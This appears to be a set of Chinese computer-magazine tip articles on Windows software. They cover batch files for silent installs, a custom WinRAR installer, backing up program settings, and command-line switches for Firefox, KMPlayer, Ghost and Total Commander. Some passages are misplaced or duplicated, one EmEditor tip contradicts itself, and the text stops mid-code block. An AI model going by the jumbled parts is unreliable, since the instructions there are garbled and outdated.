进入资源管理器，选择需要复制的文件，从右键菜单中选择“Piky Basket→Drop into the Basket”，或者按下“Ctrl+Shift+C”组合键，命令执行后会听到一声“叮咚”的提示音。

- 第2步：查看选择对象
选择文件之后，屏幕上会同时出现一个类似于超市购物筐的文件选择篮子，你可以将其转移至任意位置，我们可以随时随地单击这个文件选择篮子，如图1所示，这里会提示已经进入篮子的文件数量和文件名，当然你也可以继续添加文件进入篮子。

- 第3步：复制文件
当所有需要复制的文件选择完成之后，进入需要复制到的目标文件夹，仍然单击鼠标右键，如图2所示，从快捷菜单中选择“Piky Basket→Copy Here”，即可将刚才所复制的文件粘贴到目标文件夹。如果选择“Piky Basket→Move Here”，那么会将选定的文件剪切到目标文件夹。




## 二、在窗口模式下复制文件

除了上面介绍的操作方法之外，我们也可以右击选择“PikyBasket→Show Basket”，此时会自动激活文件选择篮子，然后从快捷菜单中选择“Switch To Full View”，或者按下F11功能键，此时可以快速切换至全功能模式。

如图3所示，我们可以在这里通过两个绿色的加号按钮添加需要复制的文件或文件夹，移除文件时单击“×”号按钮即可，更为方便，最为特别的是可以在这里直接完成复制文件的操作，你只需要在“Destination Folder:”下面的“Browse”按钮指定目标路径，然后单击窗口底部的“Copy Now”或“Move Now”按钮即可。



## 三、玩转PikyBasket的更多功能

我们知道，即使是Windows Vista，按下Shift键从右键菜单中选择“复制为路径”，也只能复制单个文件或文件夹的路径，如果需要复制不同路径的多个文件或文件夹的路径，恐怕就力不从心了。

利用PikyBasket，我们可以很轻松地完成这一任务。仍然请进入全功能的窗口模式，首先添加需要复制路径的文件或文件夹，切换至“Copy Paths”选项卡，如图4所示，在这里你可以选择是复制完整的路径或仅复制文件名，最后单击右下角的“Copy Paths Now”按钮即可将其复制至剪贴板中，需要调用时直接按下“Ctrl+V”组合键即可。



除此以外，我们还可以对不同路径的文件进行压缩，切换至“Compress”选项卡，指定文件名和路径，然后单击右下角的“Compress Now”按钮即可。另外，上述操作也可以利用右键菜单来完成，感兴趣的朋友可以从右键菜单中选择“PikyTools...”，然后从弹出菜单中选择相应的命令进行尝试，这里就不具体介绍了。

## 个性由我 决不按部就班 制作属于自己的WinRAR

◆文/江北书生

WinRAR凭借其强大的功能已经成为电脑的标配软件，用官方的安装程序，每次安装后都是默认设置，你得根据实际需要对其进行设置，比如：注册信息、自定义信息（如压缩率、压缩方案等）等。不过，要是重装系统，在安装WinRAR后，你还得重复以上操作，虽然费时不多，但还是有些麻烦，那么为什么不直接自己制作一个属于自己的个性化的WinRAR呢？安装后，我们的注册信息、自定义信息等都能自动设置完成。

### 第一步：安装WinRAR

先从官方下载并安装WinRAR，假设将其安装在C:\Program Files\WinRAR下，并注册之。

### 第二步：设置WinRAR

WinRAR功能强大，用户可根据自己的不同需要进行不同的参数设置，比如：压缩包类型、分卷大小、压缩方式等，从而得到更出色、更高效的压缩效果。为此WinRAR提供了压缩配置功能。使用户在开始压缩操作前，通过选取保存的压缩配置，快速实现利用不同压缩参数进行压缩的目的。

### 1. 设置更大压缩率

每个人都希望压缩包越小越好，而且不易损坏。可惜的是，WinRAR默认情况下做不到这一点，但我们可以选择“选项”→“设置”，单击“压缩”标签，再单击“创建默认配置”按钮（如图1）。之后打开“设置默认压缩选项”设置窗口，从中单击“压缩方式”下拉列表框，从中选择“最好”项目。接着再选中“压缩选项”下的“创建固实压缩文件”和“添加恢复记录”复选框。



### 2. 设置固实压缩顺序

因为我在上面设置了固实压缩包，这样可以保证压缩包较小。但是固实压缩文件中的文件通常是以扩展名作排序的，也可以使用指定的文件rarfiles.lst，所以我们可以打开WinRAR下的rarfiles.lst文件自行编辑交替的文件顺序。设置规则如下：

- (1) 可能的话在压缩文件中将类似的文件组在一起；
- (2) 频繁访问的文件放在起始的位置上。 通常位置越靠顶端的掩码优先级越高，但是这个规则存在一个例外。如果rarfiles.lst包含两个掩码，并且所有文件不仅匹配第一个掩码，也匹配第二个掩码，第一个掩码将拥有更高的优先权，即使它被放到第二个后面。例如，存在*.cpp和f*.cpp掩码的情况下，f*.cpp拥有更高的优先权，所以“filename.cpp”的位置将根据‘f*.cpp’来选择，而不是‘*.cpp’。

### 3. 让WinRAR保留NTFS安全权限

我们知道，使用NTFS分区可以为文件分配相应的权限，从而使数据更加安全。不过，有幸的是，WinRAR是第一款支持NTFS分区文件的压缩软件，通过它我们可以保证压缩文件时可以把原压缩文件在NTFS分区上相应的权限及安全信息保存起来。用WinRAR把相应压缩包的文件恢复到其他NTFS分区上后，该压缩包中文件的相应权限会被迁移，从而可以保证数据更加安全。单击“高级”标签，同时选中“NTFS选项”选项区域下的“保存文件安全数据”和“保存文件流数据”复选框。按下“确定”按钮返回“设置”窗口，再按下“确定”按钮返回WinRAR。

### 4. 设置配置文件

在图1窗口中可以单击“配置文件”按钮，我们可以看到WinRAR中本身已提供的一些预先定义的配置文件，如“创建E-mail附件”、“备份选定文件”、“创建1.44MB压缩卷”和“ZIP档案文件（低压缩率）”等（如图2）。选中后即可使用相应的设置来压缩文件了。如选中“创建1.44MB压缩卷”，则WinRAR会自动把选中文件按1.44MB大小进行分割压缩，省去了我们单击“分卷压缩，字节”项目，再指定分卷大小了；而选中“ZIP档案文件（低压缩率）”项，则WinRAR会把选中的文件压缩成ZIP文件。



利用这些配置，我们可以快速进行压缩参数的设置，从而更加方便我们压缩文件。

### 第三步：导出设置

完成设置后，选择WinRAR“设置”→“导入/导出”→“导出设置到文件”（如图3），再在打开窗口中将Settings.reg文件保存到WinRAR安装文件夹下。

### 第四步：制作压缩包

在D盘上新建一个名为WinRAR的文件夹，再将C:\Program Files\WinRAR下的rar.exe、rarreg.key和Settings.reg复制到其下，再把网上下载的WinRAR官方压缩包放到此文件夹下，命名为wrarins.exe。

在其下编写一个名为update.cmd的批处理文件，内容如下：

```
RAR a -r winrar.rar "C:\Program Files\WinRAR"
```

在其下再编写一个名为instrar.cmd的批处理文件，内容如下：

```
wrarins.exe /S
rar.exe x -r -O+ -EP2 -p- -y -inul -ibck winrar.rar "C:"
regedit /s Settings.reg
```

之后，双击update.cmd即可生成一个winrar.rar文件。

### 第五步：使用自己的安装软件

以后系统重新安装，直接双击D:\WinRAR下的instrar.cmd即可完成WinRAR的安装，而且安装完成后可以用上自己的设置。

## 决不会丢失自己的设置 用好软件的导入导出

◆文/江北书生

Windows总是那样的不争气，时间一长就不行了。我们不得不重新装机，系统还好。关键问题是很多软件的设置全部要重新做，非常麻烦。不过，事实上，很多软件的作者已经考虑到了这一点，内置有设置的导入导出功能，无须安装另外的软件就能让大家更轻松地使用。这样可以很大程度上减轻我们的压力。

这里告诉用户一些可以通过导入和导出设置而打造自己的软件。包括紫光拼音、微软拼音输入法、拼音加加、五笔加加、CyberArticle (网文快捕)、HyperSnap-DX、EmEditor、CuteFTP、OE中的账户信息、DreamMail、Messenger Plus!等。

### 一、系统类

#### 1. Windows Vista

如果你使用Windows Vista，在系统快崩溃前，选择“开始”→“程序”→“附件”→“系统工具”→“Windows轻松传递”，打开“Windows轻松传递”窗口。先选择“我的旧计算机”单选按钮，顺着向导即可将当前的个性设置导出。以后，重新安装系统，可以再次运行它，选择图1窗口中“我的新计算机”，再选择先前备份转移信息的文件夹恢复先前的设置。

#### 2. Windows XP

如果使用Windows XP，则可以打开Windows XP光盘的SUPPORT\TOOLS文件夹下的FASTWIZ.EXE，启动“文件和设置转移向导”。之后就会出现一个“文件和设置转移向导”窗口（如图1），选择“旧计算机，我要从这台计算机上转换文件和设置”单选按钮，顺着向导即可将当前的个性设置导出到一个文件中。方便日后选择图2中的“新计算机，我要将文件和设置转移到这台计算机。”单选按钮，再选择先前备份转移信息的文件夹恢复先前的设置。



#### 3. 远程桌面功能

在远程桌面的客户端设置好相应的服务器名或IP地址及用户名和密码等参数后，单击下方的Save As (保存) 将此配置保存为一配置文件，方便以后单击Open按钮打开来使用。

### 二、办公类

#### 1. Office

单击“开始→程序→Microsoft Office→Microsoft Office工具→用户设置保存向导”命令启动“用户设置保存向导”，再选择“保存本机的设置”选项，单击“下一步”按钮，把设置保存到扩展名为OPS的文件中。重新安装Office后，再用此向导恢复过来。

#### 2. WPS Office

“开始→程序→WPS Office个人版→WPS Office工具→用户设置保存向导”命令启动“WPS Office 2007用户设置保存向导”再选择“保存本机的设置”选项（如图2），单击“下一步”按钮，把设置保存到扩展名为KOS的文件中。重新安装WPS Office后，再用此向导恢复过来。



如果你的机器是“老爷机”，还在使用Office 2000，可以从 http://download.microsoft.com/download/6/b/3/6b34f4c7-44e6-4d85-91d9-1acf9479da7d/orktools.exe 下载并安装Office 2000 Resource Kit Tools，完成后再单击“开始→程序→Microsoft Office Tools→Microsoft Office 2000 Resource Kit Tools→Profile Wizard”即可启动类似Office XP中的“用户设置保存向导”，虽然界面是英文的，但很容易操作。



#### 3. HyperSnap-DX

在HyperSnap-DX中单击“选项→保存配置”可将当前的设置保存为HprSnap6.ini文件，以后重新安装后，只要单击“选项→读取配置”再打开先前备份的HprSnap6.ini文件的设置应用到当前的HyperSnap-DX中。

### 三、输入法类

很多时候，一旦重新安装系统，我们自定义的词组往往都会不辞而别。不过，大家只要照着本文的操作办法防患于未然，在系统崩溃之前备份一下，即可随时用上自己的词组。

#### 1. 紫光华宇拼音

右击紫光华宇拼音输入法状态条，选择“设置”命令，在打开窗口中单击“输入法设置”→“高级设置”，再在打开窗口下方“数据文件自动备份目录”后面单击“浏览”选择我们要备份的目录，单击“备份”即可将文件和设置保存在我们选择的目录下（如图3）。当我们重新安装紫光华宇拼音输入法时，再打开上面的窗口，单击“恢复”，之前保存的设置和自定义文件即刻恢复，再不用重新进行其他设置。

> 这里保存的数据文件包括字词库文件、主题、内容自定义的配置文件和输入法设置信息。建议自动备份目录放在非系统盘，当不指定目录时此功能无效。



在SnagIt 9中，我们只要选择“文件→管理配置文件”，在打开的窗口中选中某个配置文件，单击“导出”按钮即可导出，方便日后单击“导入”按钮导入先前配置。而单击“导出所有配置文件”可将当前所有的配置信息导出到一个文件中，便于备份/恢复或与其他同事共享。

> 大多数软件的设置保存在[HKEY_CURRENT_USER\Software]下以软件公司为名的子键下，如[HKEY_CURRENT_USER\Software\Microsoft]下一般保存Windows本身的设置信息，而[HKEY_CURRENT_USER\Software\ACD Systems]则保存着ACD System公司产品的设置信息，如ACDSee、Picaview等。

SnagIt 9会把注册码保存在C:\Documents and Settings\All Users\Application Data\TechSmith\SnagIt 9\RegInfo.ini文件中，请将这个文件拷贝出来。以后只要打开这个文件即可看到其中的用户名和序列号，并可以利用其中的用户名和序列号注册。

右击输入法条，选择“登录通行证”命令，在打开窗口中输入通行证（可以用sohu邮箱账户和密码登录）。再右击输入法条，选择“设置属性”命令，打开窗口中单击“通行证”标签，如图4，我们可以看到相应的功能按钮。默认情况下，4小时会自动同步到服务器一次，我们也可以手动操作。以后在别的机器上登录通行证就可以获得自己的设置。



其中的用户名和序列号，并可以利用其中的用户名和序列号注册。

#### 2. 搜狗五笔

搜狗五笔的通行证设置窗口与搜狗拼音输入法类似。

#### 3. Google输入法

右击Google输入法，选择“属性设置”，在打开窗口中单击“网络同步”标签，再勾选“自动同步用户词典和设置”复选框，再输入Google账户和密码即可。当然，我们也可以单击“立即同步”来立即同步。

#### 4. 万能五笔

万能五笔将其自定义的词组放在其安装文件夹下的user_add.txt文件中，其设置保存在安装文件夹下的wnwb.ini文件中。大家只要把这两个文件备份一下，在重新安装系统后直接将备份的文件拷贝到万能五笔输入法安装文件夹下即可恢复先前的词组和设置。最好安装此软件时，直接将它安装在非系统分区上，就不需要备份，重装系统后，在桌面上建立一个快捷方式就可以直接使用了。

#### 5. Total Commander

选择“帮助→关于Total Commander”，在打开窗口中找到wincmd.ini和wcx_ftp.ini，将它们拷贝到Total Commander安装文件夹下。同时，备份其下的所有的扩展名为.bar和.brl及totalcmd.inc、wincmd.key文件。重新安装系统和Total Commander后将上述文件还原到Total Commander安装文件夹下。再从 http://www.v7soft.com/download/tcmdhere.zip 处下载tcmdhere.zip，将其中所有的文件解压到Total Commander安装文件夹下。再双击其下的tcmdhere.exe文件，就可以使用自己的设置了（包括自己定义的快捷键、工具栏、常用文件夹列表等），这也是打造绿色版Total Commander的方法之一。

#### 6. EmEditor

安装最新版本的EmEditor，然后选择“工具→导入和导出”，再在打开的窗口中将当前设置备份成文件或者从备份文件中恢复设置。

### 四、多媒体类

#### 1. Foobar2000

打开Foobar2000，再选择“文件”→“参数选项”，单击左侧“常规”项，然后选择“配置文件位置”下的“程序安装文件夹”（如图5）。之后，可在Foobar2000安装文件夹下发现foobar2000.cfg文件，将此文件夹备份。以后，如果重新安装了Foobar2000，只要将它拷贝过去即可。

> > 小提示
> 在Foobar2000安装文件夹下的playlists子文件夹下保存有播放列表，大家也可以自行备份。



#### 2. KMPlayer

KMPlayer中的设置项较多，时间一长，就难以记得了。不过，它为我们提供了导出设置的功能，右击KMPlayer，选择“选项”→“参数设置”，再单击窗口下方的“导出设置”按钮，之后KMPlayer会弹出一个窗口，让我们来将设置保存为一reg文件。重新安装KMPlayer或者换了机器，直接双击reg文件导入注册表，即可快速用上自己的设置，播放电影/歌曲很快就爽起来！

### 五、网络工具类

#### 1. 导入导出IE收藏夹

启动IE，单击“文件”→“导入和导出”命令，顺着向导进行操作即可。

#### 2. 导入导出Firefox书签

选择“书签”→“管理书签”，再在打开窗口中单击“导入以及备份”按钮，再选择“导出HTML”命令将我们的书签导出来，以后再选择“导入HTML”命令将备份的书签导入（如图6）。



#### 3. IE7中的RSS导出

打开IE7，然后选择“文件”→“导入和导出”，再在打开窗口中单击“下一步”按钮，选择“导出源”，单击“下一步”即可。以后要用时，在上面窗口中选择“导入源”，再顺着向导操作即可。

#### 4. Foxmail中的反垃圾邮件设置

Foxmail最引以为豪的就是它的贝叶斯过滤和黑白名单的反垃圾邮件功能，在以前版本里，我们可以通过替换相关的文件来“导入”已经学习的贝叶斯过滤文件和黑白名单。不过这些方法，对于初学者来说，有些为难他们，稍有不慎，可能导致Foxmail不正常运行。
在主窗口里点击菜单“工具/反垃圾邮件功能设置”，在打开的“反垃圾邮件设置”窗口切换到“贝叶斯过滤”，单击“导出”按钮将Foxmail学习的贝叶斯过滤文件保存。除了备份保存的文件外，我们还可以将此文件发给好友，让好友也共享你的“学习”成果。如果还添加了黑白名单，同法在“黑名单”和“白名单”标签里操作即可。

#### 5. Foxmail中RSS导出

Foxmail也增加了RSS功能，我们可以在主界面上单击RSS按钮进入。选中一个群组，右击，选择“导出当前频道群组的OPML信息”命令将其导出。
单击RSS菜单可以在其下发现“新建频道”或“新建频道群组”命令来新建频道或新建频道群组。而选中【新建频道群组】命令，在打开窗口中还可以选择从OPML文件导入，这样就可以导入我们导出的或者其他阅读器导出的OPML文件了，大大方便了我们。

#### 6. Maxthon中的导出

互联网时代，浏览器是我们的信息重要入口。但可惜的是，浏览器往往与系统结合得太紧。很多的设置，包括收藏夹等无法实现携带。而且Windows系统一旦重新安装，其中的设置立即变得烟消云散！不过，有幸的是在Maxthon中的设置等不必导出，可以将它保存在网络服务器上。
先从 http://cn.maxthon.com 上下载并安装最新版的Maxthon，启动之，在打开窗口中选择第二项“使用我自己的账户启动”，这样所有的设置将保存在服务器上。如果没有账户，请自行注册。
接下来选择“收藏”→“更多操作”→“同步在线收藏”可以同步收藏夹。选择“文件”→“上传/下载用户数据”，之后，选中所有的选项，再单击“上传”（如图7）可将设置上传至服务器。以后到了另外的机器上，再选择“文件”→“用户数据上传下载”，之后，选中所有的选项，单击“下载”即可保证使用最新的数据。



#### 7. MSN的一些人名群组

尽管MSN可将联系人和分组信息保存在服务器上，但我们也可以防止在MSN账号丢失后丢失所有的联系人，先将他们保存下来：选择“联系人”→“保存即时消息联系人”，可将组中的联系人信息保存到ctt文件中。以后，可以选择“联系人”→“导入即时消息联系人”加载导入。

#### 8. OE中的账户信息

在OE中选择“工具→账户”，选择一个账户，单击“导出”按钮即可把选中的账户设置信息导出为扩展名为IAF的文件，以后可以通过“导出”上的“导入”按钮导入。

#### 9. DreamMail

选择“工具”→“帐号管理”（或按下F12键），在打开窗口中选中相应的账户，单击下方的“导入/导出”按钮可将当前账户设置信息导出或导入。

#### 10. Messenger Plus!

先从 http://www.msgpluslive.net/download/?lang=zh-cn 处下载并安装Messenger Plus! Live 4.70.334，再选择MSN主窗口的“Plus!→个人偏好设置”，再单击左下角的“导入/导出”，然后按照向导即可将我们的设置保存起来，供以后导入使用。

玩好软件 揪出软件的神秘尾巴

◆文/江北书生

小知识：什么是参数

参数（Parameter）是程序提供的一些隐藏选项，通过添加参数，可实现正常启动程序无法实现，或能实现，但需要很多步骤才可以运行的功能。

设置参数有三种方法：一是进入DOS模式，输入程序名称，再在其后加上参数，回车执行；二是按下Win+R键，调出“运行”窗口，在运行文本框中输入程序命令，在后面加上参数，单击“确定”按钮执行；三是为程序建立一个快捷方式，右击它，选择“属性”，然后在“属性”窗口的“目标”文本框的程序执行文件后加上参数，“确定”后双击快捷方式运行。

Windows下运行程序，默认就是直接双击。不过，从DOS时代过来的人对于软件的参数一定不会陌生，巧妙地利用它们可以实现非常个性化的功能。事实上，有一些Windows下的软件还是有很多有用的参数，巧妙地利用它们，可以让我们事半功倍。还可以挖掘出一些软件不为人知但却非常实用的功能呢！

## 一、Firefox

### 1. 一步到位 批量安装Firefox插件

Firefox插件使Firefox增色不少，不过，一般人只是按部就班地一个一个地将xpi拖放到Firefox的窗口中。如果我们安装的插件较多，而且已经作过保存，当重装系统后需要再次安装这些插件时，可以先将所有的xpi文件下载到一个文件夹下，如d:\xpi下，再写上一个名为xpiinstall.bat批处理文件，语句如下：

```
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\Adblock.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\AddBookmarkHere.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\FlashGot.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\IeView.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\Sage.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\SuperDragAndGo.xpi
"C:\Program Files\Mozilla Firefox\firefox.exe" -safe-mode -install D:\xpi\tabextensions_en.xpi
```

我们可以一次使用多个启动参数，但必须用空格将各个参数分开。事实上，不仅参数和参数之间用空格符分隔，程序和参数之间也用空格分开。双击之，即可批量安装。

### 2. 不装软件 将Firefox变为绿色软件

Firefox的设置默认保存在系统盘，系统崩溃后恢复起来并不方便。但通过其参数，我们可以自己打造一个绿色版的Firefox。

先打开Documents and Settings\用户名\Application Data\Mozilla\Firefox\Profiles文件夹下的诸如zg0g9u3g.default子文件夹中的所有内容拷贝到一硬盘某文件夹下，如F:\firefox\profile。再运行Firefox安装程序，选择定制安装，将其安装到F:\firefox下。接下来，右击F:\firefox下的firefox.exe文件，选择“发送到”→“桌面快捷方式”。再右击桌面上新建的快捷方式，在f:\firefox\firefox.exe后面加上-profile f:\firefox\profile，以后双击此快捷方式打开Firefox，将会自动将设置保存在移动硬盘上，这样我们就可以在别人电脑上用上自己的设置，包括收藏夹、插件等。

### 3. 让Firefox “轻装上阵”

如果因为错误地安装了插件或是中了病毒，导致Firefox无法启动，但这时想上网寻找解决方案。可以在桌面上建立指向firefox.exe的快捷方式，右击选择“属性”，在C:\Program Files\Mozilla Firefox\firefox.exe后面加上-safe-mode参数。双击此快捷方式，即可启动Firefox，不过此时将会禁止掉所有的插件和书签。

## 二、用好IE参数

-nohome 无首页，启动后打开空白页。
-extoff 表示不启动加载项，防止恶意软件被加载。

### 1. 抵制恶意软件

有不少恶意软件劫持了IE的首页和加载项，给我们带来了不便。我们可以在桌面上建立指向"C:\Program Files\Internet Explorer\IEXPLORE.EXE"的快捷方式，在下面添加如下参数即可抵制恶意软件。

### 2. 让IE真正全屏浏览

在IE里只要按下F11，就可以快速地切换到全屏幕模式。不过，使用-k参数，可以打开IE的真正的全屏幕模式，它是一个完全没有工具栏、状态栏、菜单的IE画面，把所有的空间都让给网页。

## 三、批量安装软件

Windows下的软件安装一般很简单，直接双击setup.exe，然后“一路回车”就可以了。但是如果软件一多，或者机器一多（公司网络管理员或网吧管理员），就不这么容易了。不过，好在有一些安装参数，能帮我们批量安装软件，可以为我们省下不少力气。下面以安装一些常见软件为例介绍。

### 第一步：下载最新安装程序

因为网络软件经常会推出全新的版本，所以获取最新的安装程序就变得非常重要，因此大家必须从其官方网站下载最新版本。如：迅雷/WEB迅雷：http://www.xunlei.com、Firefox：http://www.mozilla.com/en-US/firefox/、WinRAR：http://www.winrar.com.cn/download.htm等。

由于下载下来的软件名各不相同，因此我们有必要将其进行改名，以便日后的更新，如thunder.exe、webxl.exe、ff.exe、winrar.exe、WinISO.exe。

### 第二步：编写安装脚本

编写一个softinst.cmd的批处理文件，将它和下载后的软件放在同一文件夹下，内容如下：

```
thunder.exe /verysilent
webxl.exe /S
ff.exe /S
winrar.exe /S
WinISO.exe /VERYSILENT /SP-
```

### 第三步：随时安装/更新软件

进行上述设置后，以后只要双击softinst.cmd即可快速安装这些常用的网吧软件。一旦这些软件升级，只要到指定的网站上下载，并将下载后的文件名作相应更改，覆盖旧版本即可保证双击softinst.cmd安装的仍是新版本。

### 第四步：更多常见软件自动安装参数

- 1. K-Lite Mega Codec Pack 1.2
自动安装参数： /SP- /SILENT /NORESTART
- 2. Maxthon
自动安装参数： /S
- 3. VLC media player 0.8
自动安装参数： /S
- 4. UltraISO 7.5
自动安装参数： /SP- /SILENT /NORESTART
- 5. ACDSee v3.1 SR1 美化版
自动安装参数： /S
- 6. Windows Media Player v10
自动安装参数： /Q:A /R:N
特别说明：若事先关闭系统还原则会弹出对话框使自动安装失败！
- 7. 卡巴斯基反病毒单机版
自动安装参数： /S
- 8. 卡巴斯基反病毒单机专业版
自动安装参数： -s
要注意的是，InstallShield 使用 -s 静默安装参数的软件都要做一个静默安装参数文件setup.iss，可以双击安装程序后在临时文件夹中获得。
- 9. 7-Zip
自动安装参数： -y /q /r:n
- 10. Adobe Reader 6.0 Basic and Full
自动安装参数： -p"-s /v"/qn""
- 11. Partition Magic 8.0
自动安装参数： /s /v/qn
- 12. Nero Burning ROM 6.0
自动安装参数： /SILENT /NOREBOOT /SN=xxxxx-xxxxx-xxxxx-xxxxx-xxxxx /WRITE_SN
要注意的是，SN=xxxx-xxxx-xxxx-xxxx-xxxx-xxxx是序列号，它仅适用于Nero 6.0.0.23以及之前的版本，使用/HELP可查看更多参数。
- 13. Messenger Plus
自动安装参数： /SilentInstallNoSponsor或/SilentInstall
/SilentInstallNoSponsor表示不安装赞助程序，而/SilentInstall表示安装赞助程序。
- 14. Daemon Tools
自动安装参数： /qn /Reboot=Suppress
- 15. Alcohol 120%
自动安装参数： /qn

## 四、批量应用系统和Office补丁

如果我们手上有系统和Office补丁（如图1），不必一个一个地双击，只要写一个批处理命令patchins.cmd，将它和补丁文件放在同一文件夹下，内容如下：

```
FOR /r %%V IN (win*.exe) DO "%%V" /quiet /norestart
FOR /r %%V IN (office*.exe) DO "%%V" /Q
```

双击patchins.cmd即可批量应用补丁。

## 五、自己制作绿色Total Commander

Total Commander（以下简称TC）虽好，但一般情况下，其配置文件及插件都保存在固定的文件夹下，一旦重新安装操作系统，很多都必须再设置，较为麻烦。其实，动一些脑筋，我们完全可以制作出自己的绿色TC。

### 第一步：确定配置文件位置

打开TC，选择“帮助→关于Total Commander”，在窗口下方可以看到wincmd.ini和wcx_ftp.ini所在位置（如图2）。把这两个文件拷贝到TC的安装文件夹（如果本身就在其安装文件夹下，则无须重新拷贝），本例中假设它保存在E:\software\TCLite文件夹下。

### 第二步：修改配置文件

用“记事本”打开TC的安装文件夹中wincmd.ini文件，按下Ctrl+H键打开替换窗口，把所有TC安装文件夹（如d:\wincmd）换成%COMMANDER_PATH%，单击“全部替换”按钮。

### 第三步：新建/修改快捷方式

打开TC安装文件夹，找到Totalcmd.exe。右击之，选择“发送到”→“桌面快捷方式”。再选中桌面上刚生成的快捷方式，右击它，选择“属性”，打开设置窗口，在E:\software\TCLite\TOTALCMD.EXE后面加上 -i=E:\software\TCLite\wincmd.ini -f=E:\software\TCLite\Wcx_ftp.ini，同时设置“运行方式”为“最大化”（如图3）。

### 第四步：使用绿色TC

双击桌面上的快捷方式，可以保证让TC用上E:\software\TCLite下的设置，我们所作的修改也会被保存，非常方便。

## 六、让SnagIt做个幕后英雄

SnagIt是流行的抓图软件，在“启动”菜单新建其快捷方式，右击它并选择“属性”，将“目标”项的“C:\Program Files\TechSmith\SnagIt 6\SnagIt32.exe”后加上 /h /i /t三个参数。这样，启动Windows时，SnagIt自动加载，而且窗口一闪而过，甚至在系统托盘处也不看见其图标。平时只要按下SnagIt的抓取热键即可抓取图片。这样的幕后英雄你喜欢吗？

- ☆SnagIt的参数较多，可以在帮助文件中找到相应的解释。这里只解释本例中用到的参数意义：/h 启动SnagIt时隐藏SnagIt窗口，/i 启动SnagIt时使SnagIt最小化成系统托盘图标，/t 不允许SnagIt在系统任务栏托盘区显示图标。
- ☆如果需要调出SnagIt窗口该怎么办呢？你可以事先打开SnagIt窗口，选择“工具”→“程序参数设置”，再在打开的设置对话框中单击“热键”标签下“显示/隐藏热键”下拉列表框，并设置一热键（如图4，本例为F10）。以后只要按下F10键即可随时显示/隐藏SnagIt窗口了。

## 七、让KMPlayer播放完成后直接关机

现在多数人都用电脑来欣赏电影大片，如果我们的电脑能够在播放完我们喜欢的歌曲和DVD大片或者电影后自动关机，就算睡着了，或者天冷也不用下床来关机，这将是一件非常惬意的事情。韩国的全能播放器KMPlayer的参数就提供了这样的功能。

- 1. 播放DVD完成后就关机
`KMPlayer.exe /dvd /fullscreen /shutdown`
将DVD盘片放入DVD光驱，双击此快捷方式即可以全屏方式播放DVD，播放完成后会自动关机。
- 2. 播放完指定电影就关机
`KMPlayer.exe D:\movie\木乃伊3.rmvb /fullscreen /shutdown`
以全屏方式播放D:\movie\木乃伊3.rmvb，播放完成后会自动关机。
- 3. 播放完指定文件夹中的电影就关机
`KMPlayer.exe D:\movie /fullscreen /shutdown`
以全屏方式播放D:\movie\下所有电影，播放完成后会自动关机。
- 4. 加载相应的字幕
`KMPlayer.exe D:\movie\木乃伊3.rmvb /sub "D:\movie\木乃伊3.srt" /fullscreen /shutdown`
以全屏方式播放D:\movie\木乃伊3.rmvb，字幕文件指定为：D:\movie\木乃伊3.srt，播放完成后会自动关机。

- KMPlayer的参数还有：
- /wdm , /defwdm 打开WDM(BDA)设置窗口/最近的设备；
- /analwdm , /hdtvwdm 打开WDM (ATV)/BDA(DTV) 设备；
- /cd 播放指定设备名内的CD光盘；
- /close 在播放后关闭播放器；
- /desktop 以桌面模式启动KMPlayer；
- /start "ms" 在 "ms"（毫秒）处开始播放电影/音乐；
- /skinini "skin.ini" 以指定的外观模式启动。

## 八、让Total Commander更好用

Total Commander（以下简称TC）是很不错的文件管理工具，不过，通过一些参数，我们完全可以让它更好地调用外部程序，而且更为精彩！

### 1. 随时启动体贴的‘资源管理器’

实现功能：尽管在TC中可以很好地管理文件，但有时，某些操作我们还是希望能够在‘资源管理器’中进行。这时，在TC的工具栏上添加一个‘资源管理器’按钮，一单击它即可打开当前的文件夹是一个不错的主意。

选择‘配置’→‘自定义工具栏’命令打开设置窗口，单击‘添加’按钮，再在‘命令’文本框中输入%windir%\explorer.exe，在‘参数’文本框中输入., 接着‘图标文件’中输入%windir%\explorer.exe，在‘图标’中选择相应的图标，再在‘按钮提示’文本框中输入‘用‘资源管理器’浏览’。单击‘确定’按钮完成。

以后无论在TC的哪个窗口中，只要单击工具栏上的‘资源管理器’图标，即可用‘资源管理器’打开当前的文件夹。

### 2. 添加DOS Here功能

我们还可以在‘命令’文本框中输入%windir%\system32\CMD.EXE，在‘参数’和‘开始路径’文本框中都输入., 接着‘图标文件’中输入%windir%\system32\CMD.EXE，再在‘按钮提示’文本框中输入‘打开DOS窗口’，单击‘确定’按钮完成。

以后无论在TC的哪个窗口中，只要单击工具栏上的‘打开DOS窗口’图标，即可打开DOS窗口，且会自动切换到当前文件夹下，相当于微软的PowerToys中的DOS Here功能，非常酷。

## 九、妙用EmEditor批量查找文件

想从一个目录大量文本文件中找到包含相关字符串的文件，使用EmEditor的参数会容易许多，通过它能方便地查出指定文件夹下包含特定字符串的文本文件。单击‘开始’→‘运行’，输入：

```
C:\Program Files\EmEditor3\EMEDITOR.EXE /fi '迅雷' 'e:\thunder5\*.txt'
```

回车后，EmEditor会从e:\thunder5文件夹查找所有扩展名为.txt，并包含‘迅雷’字符串的文本文件，并忽略大小写。找到的文件会显示在EmEditor窗口中，单击即可打开编辑。

### 提示

★如果想在查找文件时大小写严格相符，则可以把上述/fi改为/fc即可。★如果查找子文件夹，则只要在/fi前加上/fi参数即可。

## 十、带密码备份

有不少人会将gho文件用Ghost Explorer解开来而看到别人的文件，因此我们在备份系统时就不得不多一个心眼，输入如下语句：

```
ghost -sure -pwd,666888 -clone,mode=pdump,src=1:1,dst=system.gho
```

该语句作用是把第一块硬盘第一分区信息备份到当前文件夹的system.gho中，并以666888作为所生成的GHO文件的密码。以后恢复system.gho，或用Ghost Explorer释放其中文件时，都必须输入密码，否则无法恢复或释放。如果输入：ghost -sure -pwd -clone, mode=pdump, src=1:1, dst=system.gho，即-pwd后面不带密码，则Ghost在制作GHO文件前会询问用户加密GHO的密码。给GHO文件加密后，别人就无法随意查看或恢复我们的文件了。

## 十一、批量解压压缩文件

将C:\Program Files\WinRAR\下的Rar.exe和rarreg.key拷贝到一文件夹下，如d:\articles下，再在其下编写一个批处理文件unpackall.cmd

```
